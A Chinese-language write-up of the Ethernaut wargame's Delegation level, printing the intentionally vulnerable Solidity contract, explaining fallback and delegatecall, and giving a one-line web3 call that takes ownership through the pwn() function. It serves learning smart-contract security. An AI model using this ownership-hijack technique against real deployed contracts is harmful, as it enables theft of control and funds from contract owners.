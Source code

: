 ```yaml
---
title: Ethernaut 闯关笔记 第7关 Delegation
date: 2023-12-12 23:42:02
tags:
---
```


# 原始代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {

    address public owner;

    constructor(address _owner) {
        owner = _owner;
    }

    function pwn() public {
        owner = msg.sender;
    }
}

contract Delegation {

    address public owner;
    Delegate delegate;

    constructor(address _delegateAddress) {
        delegate = Delegate(_delegateAddress);
        owner = msg.sender;
    }

    fallback() external {
        (bool result,) = address(delegate).delegatecall(msg.data);
        if (result) {
        this;
        }
    }
}
```

# 知识点

## fallback

当合约被调用且调用时没有声明调用的是哪一个函数的时候，默认调用 `fallback()`

## delegatecall

常用的跨合约调用方法有三个，如果 A 委托合约 B 调用合约 C ：

* `call` ：最常用的调用方式，调用后内置变量 `msg.sender` 的值会修改为调用者B，执行环境为被调用者的运行环境C。
* `delegatecall` ：调用后内置变量 `msg.sender` 的值A不会修改为调用者，但执行环境为调用者的运行环境B
* `callcode` ：调用后内置变量 `msg.sender` 的值会修改为调用者B，但执行环境为调用者的运行环境B

以上内容节选自[这篇博客](https://blog.csdn.net/weixin_43982484/article/details/125218458)

与此相关的攻击常用于多签钱包。

# 攻击思路

由于 `Delegation` 会将自己的 `calldata` 原封不动地传给 `Delegate` ，因此要想完成调用，只需要将 `"pwn()"` 加密后发送给 `Delegation` 即可。

# 攻击代码

```javascript
contract.sendTransaction({data: web3.utils.keccak256("pwn()")})
```

